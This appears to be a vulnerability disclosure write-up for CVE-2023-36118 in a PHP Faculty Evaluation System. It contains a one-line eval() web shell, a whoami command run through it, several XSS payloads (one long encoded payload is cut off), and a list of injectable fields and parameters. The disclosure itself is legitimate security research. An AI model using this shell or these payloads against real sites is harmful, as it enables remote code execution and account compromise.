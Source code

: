 # Faculty Evaluation System 1.0

+ Vendor Homepage: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html
+ Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/eval_2.zip
+ Tested on: XAMPP + win10
+ XSS vuln
+ CVE ID: CVE-2023-36118
+ CVSS v3.1 `AV:L/AC:L/PR:H/UI:R/S:U/C:L/I:L/A:L/E:F/RL:W/RC:R/CR:L/IR:L/AR:L/MAV:L/MAC:L/MPR:H/MUI:R/MS:U/MC:L/MI:L/MA:L`

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/185ff8b6-5953-4219-9ef9-ab9f655ec5f3)


First, create a simple PHP script to trigger the vulnerability. The following PHP code will utilize the GET parameter and execute it through the eval() function:

**The $_GET[""] is passed to the eval() function, which means that the string will be interpreted as valid PHP code and executed. It allows the attacker to execute arbitrary PHP code.**

```php
<?php $code = $_GET['code'];
eval($code); ?>
```

When you see this page, you will know that the program has executed successfully. It seems that other tests can be performed.

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/7dbac24e-7e55-4050-8014-0b1ab115f15c)

+ echo shell_exec('whoami');

![](https://hackmd.io/_uploads/B1KnDvgw2.png)

After pressing Set for each option
![](https://hackmd.io/_uploads/r1WcdDgw3.png)

stored xss
Entering the payload in the bottom box of most projects will trigger ->

I will write the details of the affected part at the end

[xss payload](https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt)
```
<script>alert(1)</script>
<img src=1 onerror=alert(1)>
<iframe src=javascript:alert(1)>
....

```

![](https://hackmd.io/_uploads/B1J2Dtlvn.png)
![](https://hackmd.io/_uploads/SyKpwFevh.png)

![](https://hackmd.io/_uploads/ByG2_Pevn.png)
![](https://hackmd.io/_uploads/Bys_b_lP2.png)
![](https://hackmd.io/_uploads/H1ysROxP3.png)


More interesting is this payload

```
xss%20%22%3E%3E%3Cmarquee%3E%3Cimg%20src=x%20onerror=confirm(/OPENBUGBOUNTY/)%3E%3C/marquee%3E%22%20%3E%3C/plaintext\%3E%3C/|\%3E%3Cplaintext/onmouseover=prompt(/OPENBUGBOUNTY/)%20%3E%3Cscript%3Eprompt(/OPENBUGBOUNTY/)%3C/script%3E@gmail.com%3Cisindex%20formaction=javascript:alert(1)%20type=submit%3E%27--%3E%22%20%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E%22%3E%3Cimg/id=%22confirm&lpar;%20OPENBUGBOUNTY)%22/alt=%22/%22src=%22/%22onerror=eval(id&%23x29;%3E%27%22%3E%3Cimg%20src=%22http:%20www.openbugbounty.org/images/design/openbugbounty-logo.png%22%3E%20%EF%BF%BC&show;=xss%20%22%3E%3E%3Cmarquee%3E%3Cimg%20src=x%20onerror=confirm(/OPENBUGBOUNTY/)%3E%3C/marquee%3E%22%20%3E%3C/plaintext\%3E%3C/|\%3E%3Cplaintext/onmouseover=prompt(/OPENBUGBOUNTY/)%20%3E%3Cscript%3Eprompt(/OPENBUGBOUNTY/)%3C/script%3E@gmail.com%3Cisindex%20formaction=javascript:alert(1)%20type=submit%3E%27--%3E%22%20%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/s
```
![](https://hackmd.io/_uploads/HyAyXOeP2.png)

Stored xss will cause
xss is triggered every time the page is visited

Affected vulnerable blocks:
```
On the page http://localhost/eval/, under "Manage Account," if an XSS payload is entered in the "First Name" and "Last Name" fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=, after entering a reflected XSS payload in the "page=" parameter, it can trigger an attack.

On the page http://localhost/eval/index.php?page=subject_list, under the "Manage subject" setting in the "Action" section, if an XSS payload is entered in the "Description" and "Subject" fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=class_list, under the "Manage class" setting in the "Action" section, if an XSS payload is entered in any of the fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=academic_list, under the "Manage" setting in the "Action" section, if an XSS payload is entered in the "Year" field, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=questionnaire, under the "Manage" setting in the "Action" section, in the "Question" field at the bottom of the page, if an XSS payload is entered, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=criteria_list, in the "Criteria" field, if an XSS payload is entered, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=faculty_list, after clicking "Edit" in the "Action" column, on the page http://localhost/eval/index.php?page=edit_faculty&id=, under the "Edit Faculty" section, if an XSS payload is entered in the "School ID," "First Name," and "Last Name" fields, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=student_list, after clicking "Edit" in the "Action" column, on the respective page, in the "School ID," "First Name," and "Last Name" fields, if an XSS payload is entered, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=user_list, after clicking "Edit" in the "Action" column, on the respective page, in the "First Name" and "Last Name" fields, if an XSS payload is entered, it can trigger stored XSS.
```
